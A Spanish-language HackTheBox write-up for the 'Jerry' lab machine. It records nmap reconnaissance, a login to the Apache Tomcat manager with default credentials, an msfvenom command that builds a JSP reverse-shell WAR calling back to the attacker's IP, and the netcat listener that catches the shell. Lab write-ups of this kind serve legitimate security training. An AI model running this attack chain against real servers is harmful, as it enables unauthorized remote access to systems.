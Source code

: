```yaml
---
title: "Jerry - HackTheBox"
date: 2024-08-18 00:00:00 +0800
categories: [Ciberseguridad,Writeups,HTB]
tags: [eJPT]
image: images/Jerry/Jerry.png 
---
```


# Reconocimiento

El primer paso en cualquier evaluación de seguridad o prueba de penetración es el reconocimiento.

En este caso, comencé con un reconocimiento activo utilizando el comando `ping` para determinar si la máquina objetivo, en este caso, la IP `10.129.136.9`, estaba activa y podía responder a las solicitudes de red.

```bash
ping -c 1 10.129.136.9
PING 10.129.136.9 (10.129.136.9) 56(84) bytes of data.
64 bytes from 10.129.136.9: icmp_seq=1 ttl=127 time=83.7 ms

--- 10.129.136.9 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 83.738/83.738/83.738/0.000 ms
```

# Escaneo

Después de confirmar que la máquina objetivo estaba activa, mi siguiente paso fue realizar un escaneo de puertos para identificar los servicios que están escuchando en la máquina. 

Para ello, utilicé Nmap, una herramienta poderosa que uso para el reconocimiento y la enumeración de puertos.

```bash
sudo nmap -sS --min-rate 5000 -p- --open 10.129.136.9 -oN allPorts.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:42 CEST
Nmap scan report for 10.129.136.9
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 28.22 seconds

```

# Enumeración

Tras identificar que el puerto 8080 estaba abierto y ejecutando un servicio HTTP, decidí profundizar en la investigación del servicio específico que estaba corriendo en ese puerto.

Utilicé Nmap con opciones adicionales que permiten obtener más información sobre el servicio y su versión.

```bash
sudo nmap -p 8080 -sCV 10.129.136.9 -oN services.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:04 CEST
Nmap scan report for 10.129.136.9
Host is up (0.058s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds

```

# Exploración del servicio web

Después de identificar que el puerto `8080` estaba abierto y ejecutando Apache Tomcat, procedí a visitar la URL directamente en el navegador para explorar la interfaz web disponible.

![ApacheTomcat](images/Jerry/Jerry1.png)

A continuación, decidí probar algunas de las rutas comunes en Apache Tomcat para identificar posibles accesos adicionales o vulnerabilidades dentro del servidor.

![AccesoApacheTomcat](images/Jerry/Jerry2.png)

Al intentar iniciar sesión, probé las credenciales comunes admin:admin, pero el intento fue rechazado. Sin embargo, el mensaje de error resultante proporcionó una pista valiosa, sugiriendo que probara con el usuario tomcat y la contraseña s3cret, lo que podría ayudarnos a conseguir las claves de acceso correctas.

![AccesoApacheTomcat](images/Jerry/Jerry3.png)

Al introducir estas credenciales, logré acceder exitosamente a la interfaz de administración de Apache Tomcat.

![PanelApacheTomcat](images/Jerry/Jerry4.png)

Ahora, con acceso al administrador de Tomcat, tengo la capacidad de gestionar aplicaciones web desplegadas en el servidor, lo que me permite explorar posibles vulnerabilidades y vectores de ataque adicionales.

# Explotación

Después de acceder a la interfaz de administración de Apache Tomcat y confirmar la posibilidad de subir archivos, mi siguiente paso fue preparar una aplicación maliciosa que, al ser desplegada y ejecutada, me diera acceso al sistema con una consola interactiva.

Utilicé msfvenom, una herramienta poderosa para generar payloads, para crear un archivo .war que contiene un payload que, al ser ejecutado, establecerá una conexión de reverse shell con mi máquina atacante.

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f war -o shell.war
```
![Shell.war](images/Jerry/Jerry6.png)

Para capturar la conexión de reverse shell desde la máquina objetivo, configuré un listener en mi máquina atacante. En lugar de usar netcat solo, utilicé rlwrap para mejorar la experiencia de la shell, ya que rlwrap permite utilizar funciones avanzadas como el historial de comandos y la edición en línea.

```shell
rlwrap nc -nlvp 443
```

Con el listener configurado en mi máquina atacante usando rlwrap y netcat, el siguiente paso fue ejecutar el archivo malicioso que subí al servidor Apache Tomcat. Este archivo, diseñado para establecer una reverse shell, me proporcionaría acceso al sistema objetivo.

```shell
rlwrap nc -nlvp 443              
listening on [any] 443 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Con el listener configurado y en espera, y después de ejecutar el archivo malicioso en el servidor Apache Tomcat, obtuve acceso exitoso a la máquina objetivo. La conexión de reverse shell se estableció correctamente, y ahora tengo control sobre el sistema.

Con el acceso exitoso a la máquina objetivo mediante la reverse shell, el siguiente paso es buscar las flags, que generalmente están ubicadas en directorios específicos o son archivos de texto que indican el éxito en la explotación de la máquina.

![Jerry](images/Jerry/Jerry5.png)








